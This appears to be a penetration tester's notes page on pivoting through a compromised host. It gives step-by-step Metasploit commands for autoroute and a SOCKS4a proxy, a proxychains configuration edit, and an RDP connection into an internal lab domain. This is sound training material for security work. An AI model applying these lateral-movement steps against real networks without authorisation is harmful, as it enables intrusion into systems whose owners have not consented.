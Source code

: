 #### Autoroutes

These can be setup through a meterpreter session automatically.  

1. Background the target meterpeter session

   ```bash
   background
   ```

2. Load the autoroute module

   ```bash
   use multi/manage/autoroute
   ```

3. Specify the session to associate the module with and run it

   ```bash
   set session 2
   run
   ```

#### Combining Routes

With routes defined in MSF, and using SOCKS4 proxy, routes can be combined so that applications outside MSF can proxy through the MSF session pivots.

1. Background the target Meterpreter session

   ```bash
   background
   ```

2. Load the SOCKS4 module

   ```bash
   use auxiliary/server/socks4a
   ```

3. Tell the module to use localhost as the proxy server and run it in the background

   ```bash
   set SRVHOST 127.0.0.1
   run -j
   ```

4. In another terminal, modify the `/etc/proxychains.conf` file and add this socks proxy to the end of it

   ```bash
   # Make sure to check the file for existing entries
   sudo bash -c 'echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf'
   # I tried this without calling it as a bash command and it said access denied.  I could use vi though, but this is faster.
   ```

5. Use proxychains to run commands through the proxy

   ```bash
   sudo proxychains rdesktop 172.16.216.5 -d corp.com -u jeff_admin
   ```
